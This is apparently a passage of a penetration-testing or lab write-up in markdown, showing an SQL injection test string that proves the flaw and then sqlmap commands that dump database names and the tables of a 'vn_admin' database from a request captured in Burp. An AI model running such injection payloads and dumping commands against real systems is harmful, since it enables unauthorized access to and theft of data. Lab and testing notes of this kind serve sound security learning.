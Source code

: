 0r 1=1 -- works - SQLi proved

**<u>SQLMap</u>**

- **Open burp and catch the request (with parameters ie. blog=1)**


![image15](../resources/9e6fe0d33a444757b19b783406a47698.png)

- **Save the request text to a file**
\#Or use the URL - but this way is better when POST requests are being used


![image16](../resources/70dd44a9d5034da39831800f4beed438.png)

- **Dump databases' names**

```bash
msqlmap -r request --batch --dbs

```

![image17](../resources/bf281e5fad0e4eb0a6169f8c6d40e4db.png)

- **Dump tables for database vn_admin**
  
```bash
sqlmap -r request --batch -D vn_admin --tables

```
